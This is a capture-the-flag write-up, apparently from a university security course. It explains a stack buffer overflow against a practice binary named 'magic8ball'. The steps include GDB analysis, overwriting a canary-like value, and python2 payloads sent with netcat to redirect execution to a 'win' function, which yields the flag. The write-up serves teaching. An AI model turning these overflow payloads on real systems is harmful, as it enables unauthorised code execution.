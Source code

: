 # [buffer overflow magic8ball](https://github.com/li-li-ge/ctf_writeups/blob/main/code/magic8ball)

### nc comp6841.quoccabank.com 5003


* First, use **Binary Ninja** to identify vulnerabilities. We can see the "vuln" function and "win" function. Our goal is to exploit "vuln" to reach "win." Let's break this down into three steps.
![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball1.png?raw=true){:height="20%" width="20%"}

img[src*="#width-full"] {
 width: 50%;
}
![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball1.png?raw=true#width-full)


<img src=https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball1.png?raw=true#width=60% />



##### step1 How to create a buffer overflow, and how many bytes are required for the overflow?
* Initially attempted to use GDB to determine this. It seems that the buffer size is at -0x2c(%ebp), which means it is 44bytes above the %ebp.

	~~~
   0x0804871a <+130>:    lea    -0x2c(%ebp),%eax

   0x0804871d <+133>:    push   %eax

   0x0804871e <+134>:    call   0x8048450 <gets@plt>
	~~~

* Given that "fortune1" is pushed onto the stack frame before, it takes up 12 bytes above %ebp. Therefore, the "buf" should be 32 bytes. Please correct me if I am mistaken.

 	~~~
   0x080486d3 <+59>:    mov    $0x804a040,%eax

   0x080486d9 <+65>:    mov    (%eax),%eax

   0x080486db <+67>:    mov    %eax,-0xc(%ebp)

   0x080486de <+70>:    sub    $0x8,%esp

   0x080486e1 <+73>:    push   -0xc(%ebp)
	~~~

#### step 2 How to ensure that "fortune1" remains equal to "fortune"?
* first lets try to check if get buffer overflowed!

	```
	python2 -c 'print "A"*31' |./magic8ball

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz
	```

	* let's make it to buffer overflow
	
	``` 
	python2 -c 'print "A"*32' |./magic8ball

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	the sands of time have changed!!

 	```

* Attempted to debug and found the address to be 0xf0470770, which in decimal is 4031186800. oh. its the fortune.

* Add two breakpoints at the gets the address and the next instruction.
![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball3.png?raw=true)


* run the test which is "A"*32  or "A" * 33 to check which value be changed, then I found the exactly value is 0xf0470770.

 ![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball4.png?raw=true)

**milestone: finally skipped canary**

	
	python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" ' |./magic8ball

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz
	
	

#### step 3 How to return to the "win" address?

* get the "win" address which is 0x080485e6 by objdump

	```
	objdump -d magic8ball | grep win

	080485e6 <win>:

	804863c:    75 19                    jne    8048657 <win+0x71>

	8048655:    eb 3c                    jmp    8048693 <win+0xad>
	```

* added into our payload but still not returned to the win fun.

	~~~
	python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" +  "\xe6\x85\x04\x08" ' | 	nc comp6841.quoccabank.com 5003

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz
	~~~

 

* It seemed that some bytes needed to be added between the canary and the return address in "vuln." So, I decided to try a **brute-force** approach to determine the number of bytes required. It turned out that 12 bytes were needed to successfully reach the "win" address.

	```
	python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" + "B"*12 + "\xe6\x85\x04\x08" ' | nc comp6841.quoccabank.com 5003

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz

	Ive changed your fortune.

	Now your fortune is to go to jail.

	```

	```
	COMP6841{SOMEWHAT_OF_A_BIRD_WATCHER}
	```

 

 

 


